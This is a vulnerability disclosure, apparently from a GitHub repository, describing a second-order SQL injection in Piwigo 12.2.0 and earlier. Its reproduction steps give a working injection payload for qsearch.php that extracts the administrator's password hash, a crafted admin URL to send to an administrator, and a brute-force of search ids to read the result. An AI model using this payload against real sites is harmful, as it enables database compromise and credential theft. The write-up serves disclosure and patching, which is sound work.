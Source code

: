 ## Second-Order SQL Injection Vulnerabilities in Piwigo 12.2.0
<u>**Affected Version : <=12.2.0**</u>

A Second-Order SQL injection exists in Piwigo before 12.2.0. 
An attacker can use the function of search to insert some sql injection payload into the piwigo_search table and then use the id retrieved to generate an evil URL. 
 When an administrator open the URL,the sql injection will be triggered. An attacker can exploit the vulnerabilities to gain access to the connected MySQL database.

**Steps to Reproduce:**

**Step 1**
 
Request `http://127.0.0.1/qsearch.php?q[test'),((select concat("a:1:{s:1:\"q\";s:41:\"password:",(select mid(password,1,32) from piwigo_users where id%3d1),"\";}")))%23]=1`

And then it will be redirected to `http://127.0.0.1/index.php?/search/${id}`

 Record the value of the id.



**Step 2**
 
Generate the URL `http://127.0.0.1/admin.php?page=history&search_id=${id}&user_id=1` (Replace the ${id} into the id that we have gotten last step).

And then send the URL to the administrator.


 
**Step 3**
 
When an administrator open the URL above,a piece of data that contains the password of the administrator account will be inserted into the piwigo_search table.If we want to retrieve the data,we need to know the id of the data that has been inserted into the piwigo_search table.


Then we can request `http://172.20.10.8/index.php?/search/${id}` to  retrieve the password of the administrator.
 
![2](21.png)
 
Because the id is incremental,we can just bruteforce it.
